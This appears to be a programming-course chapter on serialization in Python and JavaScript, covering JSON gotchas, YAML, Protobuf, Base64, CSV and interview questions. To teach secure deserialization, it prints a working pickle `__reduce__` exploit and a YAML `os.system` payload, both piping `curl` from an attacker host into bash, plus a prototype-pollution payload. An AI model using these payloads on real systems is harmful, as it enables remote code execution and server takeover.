



# Chapter 03: Data Formats & Serialization 101 (Deep Dive)

> **Welcome to Chapter 03 of the Python & JavaScript Track!**
> Modern software rarely lives in isolation. Your Python backend talks to your JavaScript frontend, which talks to an external payment API, which writes records to a database.
> 
> But computers cannot send live Python objects or JavaScript class instances over network cables! Network cables only carry raw bytes.
> 
> In this chapter, we will master **Serialization** (converting memory objects into transportable text) and **Deserialization** (parsing text back into objects), along with JSON gotchas, YAML security traps, Base64 encoding, and Google's Protocol Buffers (Protobuf).

---

## 1. What is Serialization vs. Deserialization?

```mermaid
flowchart LR
    subgraph RAM1["Your App's RAM"]
        Obj["In-Memory Object / Dict:<br/>{ name: 'Aman', age: 26 }"]
    end
    
    subgraph Wire["Network Cable / Disk Storage"]
        Text["Serialized Text (JSON / Bytes):<br/>'{\"name\":\"Aman\",\"age\":26}'"]
    end
    
    subgraph RAM2["Remote Server's RAM"]
        Obj2["Reconstructed Object / Dict:<br/>{ name: 'Aman', age: 26 }"]
    end
    
    Obj -->|"Serialization (dumps / stringify)"| Text
    Text -->|"Deserialization (loads / parse)"| Obj2
```

* **Serialization** (Marshalling / Encoding): Taking a complex in-memory object (which contains memory pointers and heap references) and flattening it into a plain text string or byte stream.
* **Deserialization** (Unmarshalling / Decoding): Reading that text string and reconstructing a live object in the new computer's Heap memory.

---

## 2. JSON in Python & JavaScript: The Essential APIs

| Task | Python (`import json`) | JavaScript (`JSON`) |
|---|---|---|
| **Object $\to$ String** | `json.dumps(obj)` | `JSON.stringify(obj)` |
| **String $\to$ Object** | `json.loads(text)` | `JSON.parse(text)` |
| **Object $\to$ File Stream** | `json.dump(obj, file)` | *(Use `stringify` + `fs.writeFile`)* |
| **File Stream $\to$ Object** | `json.load(file)` | *(Use `fs.readFile` + `parse`)* |

> **Memory Trick for Python**:
> * `dumps` / `loads` with an **'s'** stands for **String** (`json.dumps` = dump to string).
> * `dump` / `load` without an 's' operates directly on a **File** stream.

---

## 3. The 4 Deadly JSON Gotchas Every Developer Hits

### Trap 1: The JavaScript Date Trap
When you serialize a JavaScript `Date` object, `JSON.stringify` converts it into an ISO timestamp string.
* `JSON.parse` does **NOT** turn it back into a Date object! It remains a plain string.
* If you call `.getFullYear()`, your code crashes! You must do `new Date(parsed.createdAt)`.

### Trap 2: JavaScript Drops `undefined` and Functions Silently!
In JSON, there is **no concept of `undefined`**! Only `null` is valid.
* If an object has `{ bio: undefined }`, `JSON.stringify` **silently deletes the `bio` key entirely**!

### Trap 3: The Circular Reference Crash
If `nodeA.neighbor = nodeB` and `nodeB.neighbor = nodeA`:
* `JSON.stringify(nodeA)` crashes with `TypeError: Converting circular structure to JSON`!

### Trap 4: The Python `datetime` Serialization Error
Python's `json.dumps()` crashes on `datetime.now()` with `TypeError: Object of type datetime is not JSON serializable`.
* **Fix**: Use `json.dumps(data, default=str)`.

---

## 4. Beyond JSON: YAML, TOML & Protocol Buffers (Protobuf)

In modern engineering, JSON is not the only format you will use:



### 1. YAML & The Security Pitfall (`yaml.safe_load`)
YAML is human-readable and indentation-based.
* **The Dangerous Mistake**: In Python, using `yaml.load(untrusted_input)` allows arbitrary Python code execution (just like `pickle`)!
* **The Rule**: **ALWAYS use `yaml.safe_load()`** in Python!

### 2. Protocol Buffers (Protobuf) vs. JSON: Why Google Uses Protobuf
In microservices handling 1,000,000 requests per second (like Uber, Netflix, or Google):
* JSON is **plain text**: It repeats key names (`"first_name": "Raj"`) millions of times, wasting network bandwidth.
* **Protobuf** is a **binary serialization format**:
  1. You define a strict schema in a `.proto` file:
     ```protobuf
     message User {
       int32 id = 1;
       string name = 2;
     }
     ```
  2. Over the wire, it transmits field numbers (`1`, `2`) instead of string names!
  3. **Result**: Protobuf payloads are **$5\times$ to $10\times$ smaller** and serialize **$10\times$ faster** than JSON!

---

## 5. Binary Base64 Encoding: Embedding Images in JSON

JSON can only store text. What if you need to send a user's avatar image or PDF inside a JSON payload?

You cannot put raw binary bytes into JSON!

### The Solution: Base64 Encoding
Base64 converts raw binary bytes into a safe set of **64 printable ASCII characters** (`A-Z`, `a-z`, `0-9`, `+`, `/`):



#### Python:
```python
import base64

# Encoding image/bytes to Base64 string
raw_bytes = b"Hello Binary World!"
b64_string = base64.b64encode(raw_bytes).decode('utf-8')
print("Base64 Encoded:", b64_string)

# Decoding back to bytes
original_bytes = base64.b64decode(b64_string)
```

#### JavaScript:
```javascript
// In Node.js / Browser:
const rawText = "Hello Binary World!";
const b64String = Buffer.from(rawText).toString('base64');
console.log("Base64 Encoded:", b64String);

const originalText = Buffer.from(b64String, 'base64').toString('utf8');
```

---

## 6. Query Strings & URLs: Handling Parameters

When you query an API:
`https://api.com/users?search=Rahul+Sharma&role=admin&page=2`

Characters like `&`, `=`, and spaces must be **percent-encoded** (`%26` for `&`, `%20` for space).

### Safe URL Building in JavaScript (`URLSearchParams`):
```javascript
const params = new URLSearchParams({
    search: "Rock & Roll",
    page: 1
});
console.log(params.toString()); // search=Rock+%26+Roll&page=1
```

### Safe URL Building in Python (`urllib.parse`):
```python
from urllib.parse import urlencode, parse_qs

params = {"search": "Rock & Roll", "page": 1}
query_string = urlencode(params)
print(query_string) # search=Rock+%26+Roll&page=1
```

---

## 7. Working with CSV Data (Why `line.split(",")` Fails)

Never use naive `line.split(",")` on CSV files because addresses often contain commas inside quotes:
`101,"Sharma, Vikram","Bangalore, India",50000`

### The Proper Way (Python `csv.DictReader`):
```python
import csv

with open("users.csv", mode="r", encoding="utf-8") as f:
    reader = csv.DictReader(f)
    for row in reader:
        print(f"User: {row['name']} | City: {row['city']}")
```

---

## 8. The Major Security Vulnerability: Python `pickle` RCE

In Python, `pickle` does not just store data; **it stores executable bytecode instructions**.
* Never run `pickle.loads()` on untrusted files or data from network requests!
* An attacker can craft a pickle payload that executes arbitrary terminal commands (`rm -rf /` or stealing environment variables). Always use JSON or Protocol Buffers for untrusted data!

---

## 9. Production Case Studies, Data Drifts & Interview Traps

### Production Case Study 1: The Python `pickle` Session Remote Code Execution (RCE)
* **The Incident**: A high-growth e-commerce backend stored user shopping cart sessions in Redis. To save developer time, the team serialized active Python session objects using `pickle.dumps(session)` and loaded them via `pickle.loads(cached_data)`. During a security audit, a penetration tester took over full root access to the production server within 10 minutes.
* **How the Exploit Worked**: Python's `pickle` format executes the `__reduce__()` magic method during deserialization:
  ```python
  import pickle, os

  class Exploit:
      def __reduce__(self):
          # Executes arbitrary bash command upon deserialization!
          return (os.system, ("curl https://attacker.com/shell.sh | bash",))

  malicious_payload = pickle.dumps(Exploit())
  ```
  The moment `pickle.loads(malicious_payload)` ran on the server, the attacker's shell code executed with full backend privileges!
* **The Rule**: Never use `pickle` for caching, network payloads, or user sessions. Use standard JSON, MsgPack, or Protocol Buffers.

### Production Case Study 2: The 64-Bit Integer ID Truncation Bug in Financial Payments
* **The Incident**: A banking application generated 64-bit integer transaction IDs in PostgreSQL (e.g. `9007199254740993`). When the frontend web client called the refund endpoint with the ID received from the JSON API, refunds were consistently credited to the wrong customer!
* **Root Cause**:
  * In JavaScript, all numbers are **IEEE 754 64-bit floating-point numbers**.
  * The maximum safe integer in JavaScript is `Number.MAX_SAFE_INTEGER = 9007199254740991` ($2^{53}-1$).
  * Any integer larger than that loses precision:
    ```javascript
    console.log(9007199254740993 === 9007199254740992); // TRUE! Precision lost!
    ```
  * `JSON.parse()` automatically coerced the 64-bit integer into a float, silently changing the final digit and corrupting the transaction ID.
* **The Fix**: Always serialize 64-bit database IDs, timestamps, and currency amounts as **Strings** in JSON payloads (`{ "transaction_id": "9007199254740993" }`), and parse them as `BigInt` in JavaScript (`BigInt("9007199254740993")`).

### Data Drifts to Watch:
1. **Microservice Schema Drift**:
   Service A adds a new enum value (`status: "REFUND_PENDING"`). Service B was deployed 3 months ago with an older JSON validator that strictly checks against `['ACTIVE', 'CANCELLED']`. Service B crashes with unhandled validation errors.
   * **Fix**: Follow Postel's Law: *"Be conservative in what you send, be liberal in what you accept."* Unknown or new fields should be ignored rather than triggering unhandled crashes.
2. **Date Timezone Serialization Drift**:
   A backend saves a timestamp in local server time `2026-11-01T00:00:00` without appending the timezone designator `Z` (UTC). When a user in California (UTC-8) views the page, JavaScript's `new Date("2026-11-01T00:00:00")` parses it as local Pacific time, shifting the displayed invoice date backwards to **October 31st**!
   * **Fix**: Always serialize dates in strict ISO-8601 UTC format with explicit timezone designator: `2026-11-01T00:00:00.000Z`.

### FAANG Interview Scenarios & Traps:



#### Scenario 1: "Why does `JSON.stringify({ a: undefined, b: () => {}, c: NaN })` drop `a` and `b`, but convert `c` to `null`?"
* **Answer**: The official JSON RFC 8259 specification has **no representation for `undefined`, functions, or `NaN` / `Infinity`**.
  * Properties with `undefined` values or functions are omitted entirely from serialized objects to maintain valid JSON syntax.
  * `NaN` and `Infinity` are numeric in JavaScript, but because standard JSON does not support non-finite numbers, the serializer converts them to `null`.

#### Scenario 2: "Why do high-throughput internal microservices at Google and Netflix prefer Protocol Buffers (Protobuf) over JSON?"
* **Answer**:
  1. **Binary Varint Encoding**: Numbers are encoded using compact variable-length binary bytes instead of ASCII character strings (e.g. number `1000` is 2 bytes in Protobuf vs 4 bytes in JSON `"1000"`).
  2. **Field Tags Instead of String Keys**: In JSON, the string `"customer_transaction_id"` is repeated millions of times in every single record. In Protobuf, that key is replaced with a 1-byte binary integer tag (`1`).
  3. **Zero-Copy Parsing**: Protobuf schemas generate strongly-typed C++/Java/Go structs, eliminating slow string parsing and regular expression matching.

#### Scenario 3: "Why does `JSON.stringify` crash on circular objects, and how do you handle circular graphs?"
* **Answer**: If object `A` has property `a.child = B`, and `B` has `b.parent = A`:
  * Naive recursive serialization enters an **infinite recursive loop**, blowing the call stack and throwing `TypeError: Converting circular structure to JSON`.
  * **Fix**: Use a WeakSet cycle-detector reviver, or library `flatted` / `json-cycle`:
    ```javascript
    const getCircularReplacer = () => {
        const seen = new WeakSet();
        return (key, value) => {
            if (typeof value === "object" && value !== null) {
                if (seen.has(value)) return "[Circular Reference]";
                seen.add(value);
            }
            return value;
        };
    };
    JSON.stringify(circularObj, getCircularReplacer());
    ```

#### Scenario 4: "Why does `yaml.load()` in Python cause Remote Code Execution (RCE)?"
* **Answer**: The full YAML 1.2 specification includes a feature to construct arbitrary Python objects using the `!!python/object/apply` tag.
  * An attacker can send a YAML string containing:
    `!!python/object/apply:os.system ["curl attacker.com/malware | bash"]`
  * Calling unvalidated `yaml.load(payload)` executes the system command during parsing!
  * **The Rule**: Always use `yaml.safe_load(payload)`, which restricts parsing strictly to basic primitives (dicts, lists, strings, numbers).

#### Scenario 5: "What is Base64 encoding, and why does it inflate data size by exactly 33%?"
* **Answer**:
  * Base64 takes **3 bytes of binary data (24 bits)** and splits them into **4 chunks of 6 bits each** ($2^6 = 64$ ASCII characters).
  * Because 3 bytes become 4 bytes:
    $$\frac{4 - 3}{3} = \frac{1}{3} = 33.33\% \text{ size inflation}$$
  * Embedding images in JSON via Base64 increases bandwidth costs by 33%. For production APIs, send raw binary files via `multipart/form-data` or presigned S3 URLs instead!

#### Scenario 6: "How do you parse a CSV line containing commas inside quoted strings like `1,"Smith, John","New York"`?"
* **Answer**:
  * Naive `line.split(",")` splits on every comma, corrupting the columns into `['1', '"Smith', ' John"', '"New York']`.
  * Standard CSV format requires a full state-machine lexer that tracks whether a comma is inside an open quotation mark.
  * Always use standard library parsers: `csv.reader()` in Python or `csv-parse` in Node.js.

#### Scenario 7: "What is MessagePack (MsgPack) vs. JSON?"
* **Answer**: MessagePack is "like JSON, but fast and small binary".
  * It maintains the same key-value dynamic dictionary semantics as JSON (no strict schemas required like Protobuf).
  * However, numbers, booleans, and small strings are encoded in compact binary tags (e.g. integer `1` is 1 byte instead of ASCII text).
  * It provides a drop-in 30% reduction in bandwidth and 4x faster parsing over JSON without needing schema compilation.

#### Scenario 8: "Why does `JSON.parse` convert `Date` objects into strings, and how do you restore them?"
* **Answer**: The JSON format has no native `Date` data type. When serialized, dates are converted to ISO-8601 strings (`"2026-11-01T00:00:00.000Z"`). `JSON.parse()` treats it as a standard string.
  * **Fix**: Provide a custom **reviver function** to `JSON.parse`:
    ```javascript
    const data = JSON.parse(jsonString, (key, value) => {
        if (typeof value === 'string' && /^\d{4}-\d{2}-\d{2}T/.test(value)) {
            return new Date(value);
        }
        return value;
    });
    ```

#### Scenario 9: "How does Protobuf guarantee Backward and Forward Compatibility during Schema Evolution?"
* **Answer**:
  * Fields in `.proto` files are identified by their **numeric tag number** (`string email = 2;`), NOT their field name!
  * **Adding fields**: Old clients simply ignore tag numbers they don't recognize.
  * **Deleting fields**: You must mark deleted tag numbers as `reserved 2;` so new developers don't reuse tag `2` for a different field, preventing data corruption across version mismatches.

#### Scenario 10: "What is Prototype Pollution during JSON parsing in JavaScript?"
* **Answer**: If an endpoint parses unvalidated JSON and recursively merges user inputs into an internal object:
  * An attacker sends: `{ "__proto__": { "isAdmin": true } }`.
  * If the merge function assigns `target.__proto__.isAdmin = true`, it mutates **`Object.prototype`**!
  * Every single object in the entire Node.js runtime now inherits `obj.isAdmin === true`, completely bypassing authentication checks!
  * **Fix**: Use `Object.create(null)` for maps, freeze prototypes (`Object.freeze(Object.prototype)`), or reject keys named `__proto__` and `constructor`.

---

## Chapter 03 Checklist (Summary)

Before moving to Chapter 04, verify that you can answer these:
- [x] What is Serialization vs. Deserialization?
- [x] Why does `JSON.parse` convert `Date` objects into plain strings in JavaScript?
- [x] Why does `JSON.stringify` delete `undefined` values and throw errors on circular references?
- [x] Why should you always use `yaml.safe_load()` instead of `yaml.load()` in Python?
- [x] Why do Google and Netflix use Protocol Buffers (Protobuf) instead of JSON for microservices?
- [x] What is Base64 encoding, and why is it used to put images inside JSON?
- [x] Why is Python's `pickle` module considered a dangerous security vulnerability for web APIs?

*Chapter 03 is complete! Proceed to [Chapter 04: Debugging Mastery & Reading Stack Traces](./chapter_04.md).*
